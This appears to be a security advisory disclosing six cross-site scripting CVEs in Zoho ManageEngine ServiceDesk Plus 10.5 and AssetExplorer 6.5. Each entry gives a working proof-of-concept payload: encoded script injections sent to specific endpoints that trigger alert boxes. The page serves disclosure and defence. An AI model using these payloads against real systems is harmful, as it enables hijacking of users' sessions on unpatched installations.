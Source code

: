 # Multiple Cross-Site Scripting vulnerabilities in Zoho ManageEngine

Multiple Cross-Site Scripting vulnerabilities in Zoho ManageEngine ServiceDesk Plus and Zoho ManageEngine AssetExplorer

**Researcher: Enter of The Tarantula Team, VinCSS (a member of Vingroup)**
 
# CVE-2019-12539 

Zoho ManageEngine ServiceDesk Plus 10.5 Cross-Site Scripting vulnerability

Payload: Sent HTTP POST Request to: https://victim.com/SearchN.do with the following payload:

```
searchText=%27%3E%3Csvg+onload%3Dalert%28%27xss%27%29%3E&subModSelText=&selectName=Purchase&selectName=Purchase&selectedName=Purchase&submitbutton=GO
 ```

# CVE-2019-12540 

Zoho ManageEngine ServiceDesk Plus 10.5 Cross-Site Scripting vulnerability

Payload: 

```
https://victim.com/WorkOrder.do?woMode=viewWO5%27%3balert(%27XSS%27)%2f%2f
``` 

# CVE-2019-12595 

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability

Payload: 

```
https://victim.com/RCSettings.do?rdsName=Windows%20Remote%20Desktop%00zc6p3%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3Ekgo&description=This+tool+uses+the+windows+utility+%27mstsc%27+to+take+remote+and+it+is+available+by+default+in+windows+machines.&OS_COMMAND_1=mstsc+%2Fv%3A%24DEVICENAME&OS_TARGET_1_1=1&OS_COMMAND_2=&saveRds=Save&rdsId=2 
 ```

# CVE-2019-12596

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability

Payload: 

```
https://victim.com/SoftwareListView.do?softwareManufacturer=-1&site=-1&swType=488529);alert(%27XSS%27)%2f%2f298&swComplianceType=0&fromSoftwareHome=true&showZeroCount=false
 ```
 
# CVE-2019-12597

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability 

Payload:

```
https://victim.com/asset/ResourcesAttachments.jsp?type=new&wsID=87&date=1559400074944&pageName=a%22%3E%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3E
```

# CVE-2019-12537 

Zoho ManageEngine AssetExplorer 6.5 Cross-Site Scripting vulnerability 

Payload:

Sent HTTP POST Request to: https://victim.com/SearchN.do with the following payload:

```
selectName=Purchase&searchText=%27%3E%3Csvg+onload%3Dalert%28%27xss%27%29%3E&submitbutton=%C2%A0
```
 
